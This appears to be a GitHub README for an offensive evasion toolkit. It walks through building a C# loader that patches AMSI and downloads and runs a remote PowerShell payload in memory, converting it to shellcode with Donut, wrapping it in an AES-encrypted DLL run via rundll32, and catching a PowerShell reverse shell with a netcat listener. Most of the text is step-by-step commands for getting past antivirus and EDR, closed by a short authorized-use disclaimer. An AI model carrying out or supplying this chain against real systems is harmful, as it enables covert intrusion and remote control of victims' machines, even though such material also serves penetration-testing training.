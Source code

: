 # 🧬 AES-Encrypted DLL Loader – Donut + PowerShell

## 🎯 Motivation

Shellcode generated using tools like `msfvenom` is often highly detectable by modern antivirus and EDR solutions. Even with encoders, typical byte patterns and behavior can trigger alerts. To address this, this project:

- Replaces `msfvenom` with custom shellcode transformed by [Donut](https://github.com/TheWover/donut)
- Executes it via a C# loader that downloads and runs a PowerShell payload
- Provides a C++ DLL (`loader.dll`) that, when injected or called via `rundll32`, decrypts and executes shellcode in memory

This method is designed for lab environments similar to **OSEP** and has been tested with **Windows Defender enabled**.

---

## 🧩 Step 1: Build the PowerShell Loader

- The C# loader (`Loader.cs`) patches AMSI via `.NET Reflection`, downloads a remote PowerShell payload, and executes it in memory using `Runspace`.
- Uses base64 string obfuscation for script names like `shell.ps1`.

 📌 **Important:**  
 Make sure the hardcoded IP in `Loader.exe` **matches the IP of the machine hosting `shell.ps1`** via HTTP.

 📌 **Note:** You may need to reference:
 ```
 C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
 ```
---

## 🧪 Step 2: Generate Shellcode with Donut

Convert the compiled `Loader.exe` into raw shellcode using [Donut](https://github.com/TheWover/donut):

```bash
donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin
```

**Explanation of Donut flags:**
- `-a 2`: Target architecture (x64)
- `-f 1`: Output format: raw shellcode
- `-b 1`: AMSI/WLDP/ETW bypass level  
  - `1`: **No bypass**  
  - `2`: Abort on failure  
  - `3`: Continue on failure

💡 *This project uses Donut on Windows and then transfers `shellcode.bin` to a Kali Linux host for encryption.*

---

## 🧪 Step 3: Encrypt & compile:

   # Standalone (key embedded):
   ```
   python3 AES_DLL_Builder.py --standalone shellcode.bin
   ```
   Transfer the dll file to the Windows Target and:
   ```
   rundll32 loader.dll,EPoint
   ```
   # Non-Standalone (supply key):
   ```
   python3 AES_DLL_Builder.py --non-standalone shellcode.bin
   ```
   Transfer the dll file to the Windows Target and:
   ```
   rundll32 loader.dll,EPoint "my_key_123"
   ```
---

## 🌐 Step 4: Host the PowerShell Reverse Shell

Create a `shell.ps1` PowerShell script containing your reverse shell logic.

📌 **Important:**  
Ensure that the IP inside `shell.ps1` (e.g. `TCPClient('192.168.1.X', 443)`) **matches the IP of your listener machine**.

Then serve the file using Python:

```bash
python3 -m http.server 80
```

---

## 📡 Step 5: Start Listener with Netcat

Use `netcat` (and optionally `rlwrap`) to catch the reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ⚠️ Legal Notice

This project is for **educational and authorized penetration testing** purposes only.  
Do not use this code outside of lab environments or without **explicit permission**.  
Misuse may be illegal and unethical.

---

